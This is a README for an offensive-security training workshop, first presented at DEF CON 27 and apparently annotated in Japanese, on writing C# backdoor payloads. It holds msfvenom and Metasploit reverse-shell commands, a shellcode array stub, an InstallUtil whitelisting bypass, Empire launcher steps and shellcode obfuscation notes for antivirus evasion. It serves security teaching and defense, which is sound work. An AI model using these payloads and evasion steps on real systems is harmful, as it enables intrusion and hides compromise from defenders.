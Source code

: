# Writing custom backdoor payloads with C#

This workshop aims to provide attendees hands-on experience on writing custom backdoor payloads using C# for the most common command and control frameworks including Metasploit, Powershell Empire and Cobalt Strike. The workshop consists in 8 lab exercises; each of the exercises goes over a different technique that leverages C# and .NET capabilities to obtain a reverse shell on a victim Windows host. The covered techniques include raw shellcode injection, process injection, process hollowing, runtime compilation, parent pid spoofing, antivirus bypassing, etc. At the end of this workshop attendees will have a clear understanding of these techniques both from an attack and defense perspective.

**Skill Level**: Intermediate

**Prerequisites**: Basic to intermediate programming/scripting skills. Prior experience with C# helps but not required.

**Materials**: Laptop with virtualization software. A Windows 10 virtual machine and a Kali Linux Virtual Machine.

The "Writing custom back payloads with C#" workshop was first presented at [Defcon 27](https://www.defcon.org/html/defcon-27/dc-27-workshops.html#velazco). 

## Authors

* **Mauricio Velazco** - [@mvelazco](https://twitter.com/mvelazco)

* **Olindo Verrillo** - [@olindoverrillo](https://twitter.com/olindoverrillo)

## Labs

### Lab 1 : Hello World

The goal of this lab is to implement the typical Hello World example with C#. The first exercise uses .NETs Console class to print “Hello World” while the second uses .NETs Platform Invocation Services feature to import and call the Win32 Api MessageBox.

### Lab 2 : Custom Meterpreter Stager

The goal of this lab is to write a custom Meterpreter stager with C# by leveraging the WebClient class to download meterpreter’s second stage and Win32 API functions to copy the second stage in memory and execute it.

```bash
#Run msfconsole and setup a listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [YOUR_IP]
set LPORT 8080

#Create stager by msfvenom  これはmulti handlerのurlを確認するだけの為のもの
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
#twistd3とかでmaltihandlerと同じアドレスとポートを設定しこのmalwareが送信するランダムなURLを確認する
```
確認したランダムなURLで[2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab2/2.cs#L30) の箇所をUpdateする

### Lab 3 : Raw Shellcode Injection

The goal of this lab is to write a custom binary that injects a pre-defined shellcode into memory and executes it. Metasploit’s msfvenom will be used to generate the shellcode and the same Win32 API calls used in Lab 2 will be used to perform the execution.

```bash
#sample
msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode !" -f csharp
#generate shellcode for c#
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=8080 -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 674 bytes
Final size of csharp file: 3446 bytes
byte[] buf = new byte[674] {
0xfc,0x48,0x83...
```
Inject to source code([1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab3/1.cs#L30))

#### Bypassing Application Whitelisting ([2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/master/Labs/lab3/2.cs))
##### living off the land and is used by attackers to circumvent controls and avoid detection.
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe 2.cs
#Now for the bypass, we can execute the following command to get InstallUtil.exe to run our assembly, instead of launching it directly
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=
/LogToConsole=false /U 2.exe
#we can abuse InstallUtil.exe and get it to run our code. This way we can bypass application whitelisting technologies and look less suspicious to an analyst.
```
##### Bypssing Applocker
https://jpn.nec.com/cybersecurity/blog/220916/index.html

### Lab 4 : Shellcode Obfuscation

The goal of this lab is to reduce detection of the custom payloads by signature based anti-malware. We can achieve this by obfuscating the shellcode generated by msfvenom using two common techniques: XOR and AES
- [1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/1.cs#L28): でLab3のshellcodeをpasteし、xorしたやつを出力。keyはABCDE。
- [2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/2.cs#L47): にそのxorしたやつをpaste,compile,実行。C2へアクセスが成功する。
- [3.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/3.cs#L14)上のやつのAES版。lab3の生のshellcodeをpaste。AES暗号化されたやつが出力される。先に表示されるやつが暗号化されたcode
- [4.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/4.cs#L38) にその暗号化したやつをpaste,compile,実行。C2へアクセスが成功する。
>

### Lab 5 : PowerShell without PowerShell.exe

The goal of this lab is to execute a Powershell script and avoid to use the powershell.exe binary by leveraging the .NET framework and C#. Using this technique, we will get a Powershell Empire agent.  

```powershell
csc.exe /reference:"C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\3.0\System.Management.Automation.dll" 1.cs
```
##### get a listener going and generate our shellcode. 
https://github.com/BC-SECURITY/Empire   
Empire, run
- ./empire
- listeners
- uselistener http
- Configure your listener
- launcher powershell

##### We now have a PowerShell one-liner we can use to launch our payload.
```powershell
powershell -noP -sta -w 1 -enc
```
paste it into the “String script” variable of 2.cs within the Lab 5 folder.
Compile 2.cs, including the /reference like we did in the last exercise and execute 2.exe. Check back on your Empire session and you should have a shell, congratz! Feel free to run a few PowerShell Empire commands.
### Lab 6 : DLL Injection

The goal of this lab is to implement the DLL Injection technique using C# and obtain a reverse shell from a victim host. Using 3 different exercises, we will understand and implement the different steps for a successful injection.

### Lab 7 : Process Hollowing

The goal of this lab is to understand and implement the Process Hollowing technique using C# technique to obtain a reverse shell on a victim host. 

### Lab 8 : Parent Process Spoofing

The goal of the final lab is to leverage C# to spawn a new process spoofing its parent process and inject shellcode to it to obtain a reverse shell.

## Acknowledgments

Most of the labs on this workshop started from a Github repository/gist, a Stack Overflow code snippet or a Google search. Thank you to everyone who shares code for others to learn from.

* https://github.com/pwndizzle/c-sharp-memory-injection
* http://www.codingvision.net/miscellaneous/c-inject-a-dll-into-a-process-w-createremotethread
* https://github.com/re4lity/subTee-gits-backups
* https://www.codeproject.com/Articles/769741/Csharp-AES-bits-Encryption-Library-with-Salt
* https://gist.github.com/Arno0x/7f34e869cc847e088d3e107632e18294
* https://github.com/leoloobeek/csharp/blob/master/ExecutionTesting.cs



